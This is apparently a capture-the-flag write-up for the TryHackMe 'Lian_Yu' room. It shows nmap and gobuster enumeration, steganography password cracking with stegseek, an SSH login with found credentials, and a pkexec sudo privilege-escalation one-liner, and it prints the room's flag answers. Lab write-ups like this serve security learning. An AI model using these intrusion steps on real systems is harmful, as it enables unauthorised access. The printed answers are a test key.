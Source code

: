# Lian_Yu

* IP = 10.10.79.242

## Questions/Tasks:

1. Deploy the VM<br>
*No answers needed*

* Nmap Scan Report:
```bash
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey:
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC \#100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44114/udp   status
|   100024  1          46468/udp6  status
|   100024  1          48522/tcp6  status
|_  100024  1          58311/tcp   status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* Gobuster Scan Report:<br>
* Initial
```bash
$ gobuster -u "http://10.10.203.137/" -w directory-list-2.3-small.txt
/island (Status: 301)
```
![Screenshot](./1.png)

* Second
```
$ gobuster -u "http://10.10.203.137/island" -w directory-list-2.3-small.txt
/2100 (Status: 301)

```
* Strange comments found:<br>
![Screenshot](./2.png)
* Third
```
$ gobuster -u "http://10.10.203.137/island/2100" -x ticket -w directory-list-2.3-small.txt
/green_arrow.ticket (Status: 200)
```

2. What is the Web Directory you found?<br>
**Ans-2100**

3. what is the file name you found?<br>
**Ans-green_arrow.ticket**<br>
![Screenshot](./3.png)

4. what is the FTP Password?

* The above code is probably base58
* After decoding-!#th3h00d<br>
**Ans-!#th3h00d**

5. what is the file name with SSH password?

* Login with ftp:
```
username: vigilante
password: !#th3h00d
```
* 3 files are present in home directory:
![Screenshot](./4.png)
* We get all of them, 2 of those looks ok but the *Leave_me_alone.png* was corrupted
* Use hexedit to change the 1st bytes as follows:<br>
*Previous*
```
00000000: 5845 6fae 0a0d 1a0a 0000 000d 4948 4452  XEo.........IHDR
00000010: 0000 034d 0000 01db 0806 0000 0017 a371  ...M...........q
00000020: 5b00 0020 0049 4441 5478 9cac bde9 7a24  [.. .IDATx....z$
00000030: 4b6e 2508 33f7 e092 6466 dea5 557b 6934  Kn%.3...df..U{i4
00000040: 6a69 54fd f573 cebc c03c 9c7e b4d4 a556  jiT..s...<.~...V
00000050: 4955 75d7 5c98 5c22 c2dd 6c3e 00e7 c0e0  IUu.\.\"..l>....
00000060: 4e66 a94a 3d71 3f5e 32c9 085f cccd 60c0  Nf.J=q?^2.._..`.
00000070: c1c1 41f9 7ffe dfff bb2f eb22 fab5 aeab  ..A....../."....
00000080: 7d9d cfe7 f81e 5fcb 49ce ed94 7eb7 d8d7  }....._.I...~...
00000090: 723c c9e9 7492 d3d3 494e c793 9c8f 8b2c  r<..t...IN.....,
```
*After Changing*
```
00000000: 8950 4e47 0a0d 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 034d 0000 01db 0806 0000 0017 a371  ...M...........q
00000020: 5b00 0020 0049 4441 5478 9cac bde9 7a24  [.. .IDATx....z$
00000030: 4b6e 2508 33f7 e092 6466 dea5 557b 6934  Kn%.3...df..U{i4
00000040: 6a69 54fd f573 cebc c03c 9c7e b4d4 a556  jiT..s...<.~...V
00000050: 4955 75d7 5c98 5c22 c2dd 6c3e 00e7 c0e0  IUu.\.\"..l>....
00000060: 4e66 a94a 3d71 3f5e 32c9 085f cccd 60c0  Nf.J=q?^2.._..`.
00000070: c1c1 41f9 7ffe dfff bb2f eb22 fab5 aeab  ..A....../."....
00000080: 7d9d cfe7 f81e 5fcb 49ce ed94 7eb7 d8d7  }....._.I...~...
00000090: 723c c9e9 7492 d3d3 494e c793 9c8f 8b2c  r<..t...IN.....,
```
* But that doesn't change the problem
* Queen's Gambit.png:
![Images](./Queen's_Gambit.png)
* aa.jpg:
![Images](./aa.jpg)

* So trying on the .jpg file, we can find some hidden stuff with steghide/stegseek:
```bash
→ stegseek aa.jpg rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "password"
[i] Original filename: "ss.zip".
[i] Extracting to "aa.jpg.out".

```
* Extracting the ss.zip from aa.jpg and unzipping it we get:
```bash
→ unzip ss.zip
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado  
```
* Contents of shado:
```
M3tahuman
```
* Contents of passwd.txt:
```
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.

```
**Ans-shado**

6. user.txt

* Previously while exploring the ftp server we found the slade user other than vigilante:<br>
![Screenshot](./5.png)
* I tried first with vigilante but didn't succeed.
* SSH into server with:
```bash
ssh slade@$IP
```
* Navigate to user's home and find the flag:<br>
**Ans-THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}**

7. root.txt

* To escalate privileges, first check the commands that can be run with sudo(using the same password, M3tahuman):
```bash
slade@LianYu:~$ sudo -l
[sudo] password for slade:
Sorry, try again.
[sudo] password for slade:
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```
* Search <a href="">Gtfobins</a> for specific privilege escalation technique with pkexec:
```bash
sudo /usr/bin/pkexec /bin/bash
```
* Navigate to /root and find the flag <br>

**Ans-THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}**
